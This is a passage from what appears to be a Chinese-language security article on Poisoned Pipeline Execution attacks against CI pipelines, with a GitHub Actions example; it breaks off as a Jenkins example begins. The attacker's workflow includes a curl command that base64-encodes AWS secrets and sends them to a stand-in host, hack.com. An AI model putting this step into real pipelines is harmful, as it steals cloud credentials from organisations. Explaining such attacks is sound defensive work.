然而，在一些情况下，互联网上的匿名攻击者可以使用“中毒的” CI 流水线：公共存储库（例如开源项目）通常允许任何用户做出贡献，通过创建拉取请求，建议对代码进行更改。这些项目通常使用 CI 解决方案自动测试和构建，与私有项目类似。如果公共存储库的 CI 流水线运行匿名用户建议的未经审查的代码，它很容易受到公共 PPE 攻击，或者简称为 3PE。如果易受攻击的公共存储库的流水线在与私有存储库相同的 CI 实例上运行，这也会暴露例如私有项目的敏感信息这类的内部资产。

PPE 示例
======

### 通过 D-PPE (GitHub Actions) 窃取凭据

在以下示例中，GitHub 存储库与 GitHub Actions 工作流程连接，该工作流程获取代码、构建代码、运行测试并最终将工件部署到 AWS。当新代码被推送到存储库中的远程分支时，代码（包括流水线配置文件）由运行程序（工作流节点）获取。

    name: PIPELINE
    on: push
    jobs:
     build:
       runs-on: ubuntu-latest   steps:
         - run: |
             echo "building..."
             echo "testing..."
             echo "deploying..."
    

![](https://oscimg.oschina.net/oscnet/up-c74b3d92f3ccb258d4266f584e8ca234018.png)

在这种情况下，D-PPE 攻击将按如下方式进行：

1.  攻击者在存储库中创建了一个新的远程分支，在其中使用恶意命令更新流水线配置文件，这些命令旨在访问 GitHub 组织范围内的 AWS 凭证，然后将其发送到远程服务器。

    name: PIPELINE
    on: push
    jobs:
     build:
       runs-on: ubuntu-latest
       steps:
         - env:
             ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
             SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
    
           run: |
             curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com
    

2.  推送更新后，将触发从存储库中获取代码的流水线，包括恶意流水线配置文件。
    
3.  流水线基于被攻击者“毒化”的配置文件运行。根据攻击者的恶意命令，存储为存储库机密的 AWS 凭证被加载到内存中。
    
4.  流水线继续执行攻击者的命令，将 AWS 凭证发送到攻击者控制的服务器。
    
5.  攻击者随后能够使用窃取的凭证访问 AWS 生产环境。
    

### 通过 Indirect-PPE (Jenkins) 窃取凭证

这个例子展示的是 Jenkins 流水线从存储库中获取代码、构建、运行测试并最终部署到 AWS。在此流水线中，Jenkinsfile 是受保护的，因为是从存储库中的主分支中获取的。因此，攻击者无法操纵构建定义，也无法获取存储在 Jenkins 凭证存储中的机密或在其他节点上运行任务。

然而这并不代表流水线没有风险。在流水线的构建阶段，AWS 凭证作为环境变量加载，使其仅可用于在此阶段运行的命令。在下面的示例中，基于 Makefile 的内容（也存储在存储库中）的make命令作为此阶段的一部分运行。

